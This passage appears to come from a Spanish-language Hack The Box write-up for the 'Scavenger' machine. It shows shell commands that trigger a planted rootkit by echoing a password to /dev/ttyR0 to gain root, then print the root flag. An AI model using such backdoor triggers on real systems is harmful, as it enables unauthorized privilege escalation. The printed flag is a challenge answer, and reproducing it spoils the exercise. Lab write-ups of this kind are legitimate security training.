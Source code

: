 ![](/assets/images/HTB/htb-writeup-Scavenger/sca10.PNG)

```bash
❯ rlwrap python3 tty_over_http.py
echo "g3tPr1v" > /dev/ttyR0; whoami
> root
```

Esta vez vemos que el `rootkit` si funciona, asi que ahora que tenemos privilegios como `root` solo nos quedaria visualizar la segunda flag `root.txt`.

```bash
echo "g3tPr1v" > /dev/ttyR0; cat /root/root.txt
> 8c1482a3a42eb925f6e2a6ed49535065
```


